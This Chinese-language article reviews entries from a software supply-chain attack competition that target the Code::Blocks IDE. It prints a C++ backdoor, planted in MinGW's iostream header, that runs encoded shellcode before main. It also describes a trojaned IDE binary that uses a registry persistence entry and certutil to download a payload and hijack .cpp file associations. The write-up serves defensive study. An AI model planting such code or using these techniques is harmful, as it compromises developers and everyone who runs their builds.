 

## 1. 出招！蓝军出题方经典题目赏析

在本节中，我们将精选一些出题方的题目进行展示。其中一些具有代表性，透露出所有参赛队在考虑针对PE可执行文件、针对Windows系统、针对个人办公和开发软件环境这个限定的场景下，结合经验、发挥脑洞之下，能够设想出来的软件供应链新型攻击的一般模式和套路；而另有一些具有突破性，是令组织方收齐题目看到后也非常赞叹其立意之新颖、实现之巧妙的题目。希望通过这有限几道题目的展示，能够让大家对于这一限定场景下威胁的真实性、迫切性、发散性，有和我们相同的感知。

### <a class="reference-link" name="%E5%BC%80%E5%8F%91%E7%8E%AF%E5%A2%83%E6%B1%A1%E6%9F%931%EF%BC%9A%E4%BB%8E%E2%80%9C%E5%A4%B4%E2%80%9D%E5%81%9A%E8%B5%B7"></a>开发环境污染1：从“头”做起

在第一轮比赛，选定的载体是Code::Blocks，一方面限定了题目本身需要从这样的IDE环境中触发，一方面提供了可以将围绕这款软件以及一般性的开发环境为攻击、污染目标的想象空间。

这里的第一道题目形式较为简单，思路非常经典。恶意代码存在于Code::Blocks的一款官方插件autosave中，题目部分代码如下：

[![](https://p0.ssl.qhimg.com/dm/302_1024_/t011660b43580395b80.png)](https://p0.ssl.qhimg.com/dm/302_1024_/t011660b43580395b80.png)

该题的最终目的是使任何通过 MinGW 编译后的项目都存在攻击者放置的后门。IDE 里的投毒代码在自动保存时触发，通过向软件自带安装的 MinGW 默认路径(C:Program Files (x86)CodeBlocksMinGWlibgccmingw325.1.0includec++iostream)的头文件放入恶意代码，使得任何经过该 MinGW 编译且包含了 iostream 的项目存在攻击者放置的后门。

iostream 中的后门将先于 main 函数执行，实现方式为在 iosteam 中添加如下代码：

```
class AliSoftSec `{`
public:
AliSoftSec() `{`
unsigned char code[] = “x68x7fx01x01x01x5ex66x68xd9x03x5fx6ax66x58x99x6ax01x5bx52x53x6ax02x89xe1xcdx80x93x59xb0x3fxcdx80x49x79xf9xb0x66x56x66x57x66x6ax02x89xe1x6ax10x51x53x89xe1xcdx80xb0x0bx52x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x52x53xebxce”;
int (ret)() = (int ()()) code;
ret();
`}`
`}` softsec;
```

针对开发者本地开发资源进行源头污染，污染部分代码本身没有体现在安装包内自带 MinGW 的头文件明文之中。为实现攻击特征字符串避免被解题者直接人工察觉，使用了简单的字符串编码，这种方法在本次比赛中，由所有队伍不约而同地使用；该方案可以规避静态扫描，在动态测试方案中失效。这道题目在一定的隐藏性之余，实现了恶意行为的“从头做起”。

### <a class="reference-link" name="%E5%BC%80%E5%8F%91%E7%8E%AF%E5%A2%83%E6%B1%A1%E6%9F%932%EF%BC%9A%E9%87%8D%E8%A3%85%E4%B8%8A%E9%98%B5"></a>开发环境污染2：重装上阵

第二道针对Code::Blocks的题目，我们选择了一道设计完善、链路复杂且具有隐蔽性的题目，其恶意代码直接植入到了codeblocks.exe主程序文件中，CodeBlocksApp::OnAppActivate函数内容。该部分原始题目代码如下：

[![](https://p1.ssl.qhimg.com/dm/349_1024_/t0152c0975665ea7b57.png)](https://p1.ssl.qhimg.com/dm/349_1024_/t0152c0975665ea7b57.png)

本道题目意图为修改cpp源文件默认打开方式为恶意程序。实现方式为：开发机器上存在大量cpp格式源文件，若修改cpp文件打开方式为指定恶意程序即可实现对cpp文件的读写删改等操作。本题在Windows“轻松访问”注册表键创建一个恶意的“轻松访问”项，使得机器启动或者桌面切换（例如触发UAC）时执行恶意“轻松访问”项指定的程序certutile.exe，certutile.exe从服务器下载恶意程序codeblocks_opencpp.exe后，将cpp文件的默认打开程序修改为codeblocks_opencpp.exe。

本题集恶意利用、持续驻留、持续更新于一体，codeblocks_opencpp.exe实现恶意利用、恶意“轻松访问”项实现持续驻留、植入位置OnAppActivate是一个会被持续执行的函数，它将与certutil.exe一起持续从服务器上下载恶意程序以保持持续更新。此外，恶意代码会判断当前进程权限以决定修改哪个用户下的注册表项。
